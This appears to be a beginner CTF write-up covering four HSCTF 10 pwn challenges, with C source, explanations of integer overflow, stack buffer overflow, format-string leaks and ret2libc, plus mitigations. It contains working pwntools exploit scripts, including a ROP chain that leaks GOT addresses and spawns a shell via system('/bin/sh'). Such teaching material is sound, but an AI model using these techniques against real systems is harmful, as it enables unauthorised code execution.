


# 丩ᐯ㇌尺𝓝丩㇄|$
______________________________________________
# Intro to PWN through HSCTF 10 PWN challenges.
_________________________________________


## Introduction:
This writeup will work as a beginner's guide into some basic PWN challenges, made up of all 4 PWN challenges from HSCTF 10, which are some basic problems, and range in difficulty. 

## 1. PWN/Doubler
  
### 1.A: Source code & Analysis
```C
#include <stdio.h>
#include <stdlib.h>

int main() {
	char flag[32];
	FILE* f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("flag.txt not found");
		return 1;
	}
	fgets(flag, 32, f);
	fclose(f);

	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	printf("Input: ");
	char buffer[16];
	fgets(buffer, 16, stdin);
	int val = atoi(buffer);
	if (val < 0) {
		puts("Error: no negative numbers allowed!");
		return 1;
	}
	int doubled = 2 * val;
	printf("Doubled: %i\n", doubled);
	if (doubled == -100) {
		puts(flag);
	}
}
```

We have just one function, the main function and it's quite straight forward. Let's go through the code.
```C
int main() {
	char flag[32];
	FILE* f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("flag.txt not found");
		return 1;
	}
	fgets(flag, 32, f);
	fclose(f);
```
We declare an array of characters, 32 bytes to be specific which is the length of the flag.
Then a pointer to a `FILE` structure called `f` is declared, which will `read` the content of the `flag.txt` file , and if it's not available it returns `NULL`, which we will use for a check later.

```	C
setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	printf("Input: ");
	char buffer[16];
	fgets(buffer, 16, stdin);
	int val = atoi(buffer);
	if (val < 0) {
		puts("Error: no negative numbers allowed!");
		return 1;
	}
	int doubled = 2 * val;
	printf("Doubled: %i\n", doubled);
	if (doubled == -100) {
		puts(flag);
	}
}
```

Then we do some buffering, and start printing out content to the console using `printf`, declare a buffer character array which will house our input.

Some checks are then performed to make sure we didn't put any negative values, and it multiplies the number by 2.

### 1.B: The bug

The range for int data type in C is `-2147483648 to 2147483647`,so the maximum positive integer value in C is `2147483647`, after that we overflow into the other end, so if we evaluate the expression `int doubled = 2* 2147483647` manually, it would go like this:
multiply `2147483647` by 2, effectively giving us `4294967294`, but that value will wrap around after `2147483647`, so the value at this point will be `-4294967294+2147483647`, giving us `-2147483647`, so now we wrap around using that value and the result will be `-2`, now if we calculate the different between the supplied int and the result, we'll see that we need to provide `2147483647 - 49` to the application to get the flag, and so we do just that. 

### 1.C: POC 


And to do it with python:
```python
from pwn import *
session=remote('doubler.hsctf.com',1337)
session.sendline('2147483598')
print(session.recv().decode())
```

### 1.D: Mitigation

So now that we understand the bug, how it works and how to get the exact values we want out of it, how do we fix the code? 

Well, the simplest solution would be to check if the value we supplied is larger than half of the `INT_MAX` value from the `limits.h` library, and in that case just exit the program.

Note: This solution is only isolated for this scenario and a general solution for similar problems would be through fixing the typecasting, by casting the values to `uint_64` or `long long int` types.

However, here's a fixed version based on the first and simplest solution:


```C
#include <stdio.h>
#include <stdlib.h>
#include <limits.h>

int main() {
	char flag[32];
	FILE* f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("flag.txt not found");
		return 1;
	}
	fgets(flag, 32, f);
	fclose(f);

	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	printf("Input: ");
	char buffer[16];
	fgets(buffer, 16, stdin);
	long long int val = atoi(buffer);
	if (val < 0) {
		puts("Error: no negative numbers allowed!");
		return 1;
	}
    int doubled;
    if (val <= INT_MAX / 2) {
        doubled = 2 * val;
    } else {
        puts("Error: value too large to double.");
        return 1;
    }

    printf("Doubled: %i\n", doubled);

    if (doubled == -100) {
        puts(flag);
    }
}
```

And the output:


`flag{double_or_nothing_406c561}`

## 2: PWN/ed

### 2.A: Security checks

As we can see, `PIE` is disabled and there are no stack canaries, so this must be a hint towards a stack buffer overflow.

### 2.B: Source code and Analysis
```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24];
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}

```

This source is quite a bit longer, but it's a program to read files with a bunch of options and two functions.

`flag` function that gets an environment variable called `FLAG` and puts it to the screen
`main` function which holds the functionality of the program.


```C
int main(int argc, char** argv) {
	char input[24];
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
```
Here we see the buffer declarations, we have 3 buffers, `input`, `filename`, and `buffer`, Those will be interesting for us in a bit.

And then the argument is passed as a filename to read, and it copies a nullbyte to the end of the filename so it's terminated properly

```C
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
```

And here is the main functionality, so let's break it down.


The application gets the input from the user through `stdin` using `fgets` ,to see which command to execute. 

We have 3 main commands.
`Q` : to quit the program
`f` : to print the filename to read
`l` : to print out the contents of the file
And if we input any other command it prints out `?`, as well as if any error occurs.

__So.. have you caught the bug already?__

### 2.C: The bug


It all lies in these two lines 
```C
char input[24];
fgets(input, 64, stdin);
```

`fgets` takes three inputs, the target buffer, how many bytes to "get" and where to get it from. 
Fun fact: `gets` is a function that is inherently dangerous and vulnerable to overflows as it reads input up to a newline character, but `fgets` fixes that by having known bounds for how many bytes to read, however it was also the downfall of the application here, as we can read much further than the buffer. But.... why is that dangerous? 
Well, let's take a deeper look on how the stack looks


Our local variables are stored in lower addresses in memory, and it grows towards the RBP, and we have one very interesting value on the stack that controls code execution, __The return address__ . So if we can overflow the buffer and write to the return address that means we can redirect the code execution to the `flag` function.

But there's a problem... the problem is stuck in an infinite loop and never returns, however if we read carefully, we can return manually if we send a `Q` after the payload.
```C
if (input[0] == 'Q') {
			return 0;
			}
```

### 2.D: POC

As the application never crashes, we need a way to find out how many bytes we have to send before overwriting the return address, we can do that by increasing by multiples of 8 (as it's a 64 bit system), or just calculate it manually.

The stack will look something like this: 


| BUFFER |
| FILENAME | 
| INPUT | 
| SAVED RBP | 
| RET ADDRESS |

So the distance will be 24+8+8, giving us 40 of padding before sending the return address we want, and then sending a `Q` command to return.

```python
from pwn import *

elf= ELF('./ed')
session = remote('ed.hsctf.com', 1337)
win_address=p64(elf.symbols['flag'])
payload = b"a"*40 + win_address
session.sendline(payload)
session.sendlineafter("?",b"Q")
print(session.recvall().decode())
```

### 2.E: Mitigation

The mitigation for this challenge is easy, just edit the `fgets` function to read 24 bytes from stdin and into the declared array. Any value > 24 bytes and < 48 bytes, would be unsafe and clobber some data but not let us get code execution as we need exactly 48 bytes to overwrite the return address successfully.

Of-course without forgetting the correct modern protection mechanisms, like enabling PIE and Canaries.


`flag{real_programmers_use_butterflies}`
## 3: PWN/cat


### 3.A: Security checks


Binary is 32-bit, which is interesting as all the other challenges were 64 bit, and the protections enabled are the same from the previous challenge.

### 3.B: Source code and Analysis

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);

	char flag[19];
	FILE* f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("flag.txt not found");
		return 1;
	}
	fgets(flag, 19, f);
	fclose(f);

	char buffer[16];
	while (1) {
		fgets(buffer, 16, stdin);
		printf(buffer);
	}
}
```
Code is simple this time, and there is no win condition like the other challenges, so we need a way to get the contents of the flag ourselves. There is no buffer overflow,  and no return either but the flag file is saved into a character array, which is a local variable to this function,so it's on the stack. Let's keep that in mind. Moving on, we see that there is no real functionality for this application, it just takes our input and reflects it back to us... weird.

### 3.C: The bug
The way the application reflects our input is rather interesting.. usually you'd see `printf("%s",buffer);`, so `printf` knows it's supposed to print a string, but in here it prints whatever we give it.... so what if we give it a formatter? like `%s`?

This happens..

So the application is interpreting our input as a formatter, and thus attempting to access a string at an invalid location and crashing, so let's test out some other formatters listed [here](https://www.geeksforgeeks.org/format-specifiers-in-c/)

Something interesting happens when we pass the `%p` format specifier, which prints the address of which a pointer points to on the stack, like we see here.


But.. our input is limited to 16 bytes, we'll need to find a way to bypass that somehow.

### 3.D: POC

So now we have a way to leak values off the stack, we need to find a way to bruteforce leaks without the input getting obnoxiously long.

Luckily for us, we can pass it using this format, %{int}${formatter}
So if we do `%1$p`, it will print the first value, and `%2$p` will print the second...etc
Now we can write a bruteforce script to leak the values until we find the flag.

Note: I actually lost my script for this challenge, so below is the official writeup script from @hmmm, the official challenge author.


```python
from pwn import *

#p = process("./chall")
p = remote("cat.hsctf.com", 1337)
b = bytearray()
for i in range(1, 20):
	p.sendline(f"%{i}$p".encode())
	try:
		b += p32(int(p.recvline(), 16))
	except ValueError:
		pass
print(b[b.index(b"flag{"):b.index(b"}") + 1].decode())

### flag{cats_go_meow}

```

### 3.E: Mitigation

The mitigation for this one is simple aswell, just use the correct formatting syntax when using `printf`, and never pass user input straight to the function without sanitization/correct usage!


## 4: PWN/ex

This challenge requires some background information, which is coming next.

### 4.A: Background information

Have you ever wondered how the binary basic functions like `printf` or `puts`?
We certainly don't write the function from scratch every time, but C is known for having to do everything manually, so how does that work?
Well, the answer is in the `libc` on your system, the binary uses a dynamic linker and a libc which are both installed on your system and it happens behind the scenes, it uses the `libc` specifically as guidance for the basic C functions, like `printf` and `puts`...etc, so what other functions are there which might be interesting for us?

libc holds core functions like `system` and strings like `/bin/sh`, so if we have some way to do ROP, and there are no protections, we can use those gadgets to spawn a shell on the system.

But, with modern security mechanisms like ASLR which is enabled by default and isn't related to how a binary is compiled, rather where libraries are loaded in memory, how does the binary know where the functions are located?

For that we'd need to talk about the GOT and PLT (Global offset table, Procedural linkage table), but that will be too long to discuss here so I'd advise you to read [this]() great article.

### 4.B: Security checks


Same protections as the other binaries, but we've had many types of attacks so there's no way to guess what we're dealing with until we read the source code, which is thankfully provided.


### 4.C: Source code and Analysis

```C
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main(int argc, char** argv) {
	char input[24];
	char filename[24] = "\0";
	char buffer[128];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {

		fgets(input, 128, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 128, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}

```

That source code looks familiar... it's the same from the second challenge, `ed`!
But there are some slight (which make things much harder) changes.

This time there is no `win` or `flag` function, and the buffer is twice as big.. I think we have some ROPing to do...

### 4.D: The bug

Like the previous buffer overflow challenge, `ed`, the input buffer is 24 bytes but the program gets 128 bytes from us so we can clobber the return address, and redirect code execution... but where to? There's no win function!

We'll need to use some creativity, and do a ret2plt and then a ret2libc attack, but there's also one more complication, we don't have the libc version, so we'll need to leak values from the GOT, and calculate offsets to get the address of `system` and other gadgets mentioned before.

### 4.E: POC

#### Plan of attack:

- Leak function addresses using ROP, to bypass ASLR
- Find libc version based on the offsets we leaked
- Calculate the base of libc, and then the gadgets we need
- Send a final payload with `system` and `/bin/sh` addresses to spawn a shell

Here's a commented POC script to explain stuff further

```python
#!/usr/bin/env python3

from pwn import *

### SETUP ###

elf= ELF('./print_in_main')
original=ELF('./ex2_patched')

rop=ROP(original)
pop_rdi=rop.find_gadget(['pop rdi'])[0]   ### To pass arguments, as per the 64-bit calling conventions
ret=rop.find_gadget(['ret'])[0]           ### Stack alignment issues... each time a new function is called, the stack address must end with 00
puts_plt=original.plt.puts_plt			  ### Reminder: calling a function using it's address from the PLT is like calling the function directly
functions=original.got					  ### Leak all addresses from the GOT , to print them later using puts


session = remote('ex.hsctf.com', 1337) # REMOTE
#session=original.process()   # LOCAL

### -------------------------------- ###
### START LEAKING FUNCTION ADDRESSES ###

for i in functions:
	payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(functions[i]),
			p64(puts_plt),
			p64(original.symbols['main']),
			])
	session.sendline(payload)
	session.sendlineafter("?",b"Q")
	session.recv()
	function_libc=u64(session.recv().strip().ljust(8,b"\x00"))
	success(f'{i} {hex(function_libc)}')

### Now that we have the function addresses we can put them in an online libc database, e.g https://libc.rip and find the version of libc that might be used.  ###

### We get 2 possibilities, libc6_2.31-0ubuntu9.8 and libc6_2.31-0ubuntu9.8 ###

### But first we need to pick a function to calculate the libc base from, I chose setvbuf because it's a reliable function ###

### ---------------------------------------------------------------------------------------------------------------------- ###

### Leak setvbuf live due to ASLR ###

payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(original.got.setvbuf),
			p64(puts_plt),
			p64(original.symbols['main']),
			])
session.sendline(payload)
session.sendlineafter("?",b"Q")
session.recv()
setvbuf_libc=int(hex(u64(session.recv().strip().ljust(8,b"\x00"))),16)
setvbuf_address=hex(setvbuf_libc)
success(f'{hex(setvbuf_libc)=}')


### Now we can calculate the system and /bin/sh offsets ### 

libc=ELF('./libc6_2.31-0ubuntu9.9_amd64.so')

libc_base=int(hex(setvbuf_libc-0x0000000000084ce0),16) ### First value was leaked (address of setvbuf), and second value was grabbed from libc 'readelf -s libc6_2.31-0ubuntu9.9_amd64.so |grep setvbuf', or can be found in pwntools using <libc object>.symbols.setvbuf
system_libc=int(hex(libc_base+0x0000000000052290),16) 
bin_sh=int(hex(libc_base+0x1b45bd),16)


success(f'{hex(libc_base)=}') ### Reminder: LIBC base should always end with 000
success(f'{hex(system_libc)=}')
success(f'{hex(bin_sh)=}')

### ---------------------------------------------------------------------------------------------------------------------- ###

### Final payload to pop a shell ###

payload=b"".join([
			b'A'*40,
			p64(ret),
			p64(pop_rdi),
			p64(bin_sh),
			p64(system_libc),
			p64(original.symbols['main']),
			])
session.sendline(payload)
session.sendlineafter("?",b"Q")

session.interactive()


### flag{I_wonder_if_there's_an_emacs_command_for_writing_pwn_exploits?} ### 
```


### 4.F: Mitigation

- Checking `fgets` is reading 24 bytes, as per the declared buffer.
- Enabling PIE and Stack Canaries

# References:

https://libc.rip/
https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc
https://ropemporium.com/
__MUCH RECOMMENDED VIDEO BY JOHN HAMMOND__ https://www.youtube.com/watch?v=tMN5N5oid2c&t=2329s
https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got
https://ir0nstone.gitbook.io/notes/other/pwntools/elf
https://learn.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
https://stackoverflow.com/questions/672461/what-is-stack-alignment
https://www.comparitech.com/blog/information-security/integer-overflow-attack/
https://owasp.org/www-community/attacks/Format_string_attack
https://exploit.education/protostar/
https://www.youtube.com/watch?v=iyAyN3GFM7A&list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN - Memory corruption playlist by liveoverflow